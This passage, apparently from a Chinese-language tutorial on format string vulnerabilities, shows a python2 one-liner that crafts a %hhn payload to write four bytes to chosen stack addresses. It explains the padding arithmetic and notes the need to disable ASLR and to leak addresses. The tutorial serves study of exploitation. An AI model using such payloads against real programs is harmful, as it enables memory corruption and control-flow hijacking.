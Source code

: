 把 AAAA、BBBB、CCCC、DDDD 占据的地址分别替换成括号中的值，再适当使用填充字节使 8 字节对齐就可以了。构造输入如下：
`python2 -c 'print("\x38\xd5\xff\xff"+"\x39\xd5\xff\xff"+"\x3a\xd5\xff\xff"+"\x3b\xd5\xff\xff"+"%104c%13$hhn"+"%222c%14$hhn"+"%222c%15$hhn"+"%222c%16$hhn")' > text`
其中前四个部分是 4 个写入地址，占 4*4=16 字节，后面四个部分分别用于写入十六进制数，由于使用了 hh，所以只会保留一个字节 0x78（16+104=120 -> 0x78）、0x56（120+222=342 -> 0x0156 -> 56）、0x34（342+222=564 -> 0x0234 -> 0x34）、	0x12（564+222=786 -> 0x312 -> 0x12）。



最后还得强调两点：

- 首先是需要关闭整个系统的 ASLR 保护，这可以保证栈在 gdb 环境中和直接运行中都保持不变，但这两个栈地址不一定相同
- 其次因为在 gdb 调试环境中的栈地址和直接运行程序是不一样的，所以我们需要结合格式化字符串漏洞读取内存，先泄露一个地址出来，然后根据泄露出来的地址计算实际地址



